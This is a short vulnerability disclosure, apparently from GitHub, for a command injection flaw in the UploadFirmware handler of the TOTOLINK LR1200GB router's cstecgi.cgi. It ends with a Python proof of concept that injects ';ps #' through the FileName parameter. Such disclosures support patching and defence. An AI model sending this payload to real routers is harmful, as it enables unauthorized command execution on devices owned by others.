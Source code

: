 # TOTOLINK LR1200GB(V9.1.0u.6619_B20230130) router has command injection vulnerability
## Information

Vendor：http://totolink.net/

Firmware：https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/233/ids/36.html

## Affected Version
V9.1.0u.6619_B20230130
## Vulnerability Analysis
The following image displays the code for a command injection vulnerability in the `UploadFirmware` handler function of  `cstecgi.cgi`. The value of the `FileName` parameter will be spliced ​​into the `mv %s %s` and be excuted by `doSystem` function, which allows an attacker to excute any command.

![Vulnerability](./code.png)
## POC
```python
import requests

url = "http://192.168.0.1/cgi-bin/cstecgi.cgi"

payload = {
    "FileName":";ps #",
    "topicurl":"UploadFirmwareFile",
    "token":"00000000000000000000000000000000"
}

requests.request("POST", url, data=payload)
```
![postman](postman.png)
